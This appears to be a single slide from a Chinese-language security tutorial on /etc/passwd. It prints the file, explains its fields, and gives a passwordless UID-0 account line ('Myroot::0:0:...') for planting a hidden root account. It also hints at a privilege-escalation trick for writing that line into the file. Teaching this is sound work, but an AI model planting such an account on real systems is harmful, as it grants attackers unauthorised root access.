

47
#
$cp /etc/passwd /tmp/passwd.backup
$cat /etc/passwd
Root:x:0:0:root:/root:/bin/bash
登陆名 密码 用户 id 组 id  用户名 根目录 登陆shell
如果想加入一个系统管理员的帐户需要下面的字符串
Myroot::0:0:me:/root:/bin/bash
但是我们如果要写入/etc/passwd 则字符串的末尾必须是/etc/passwd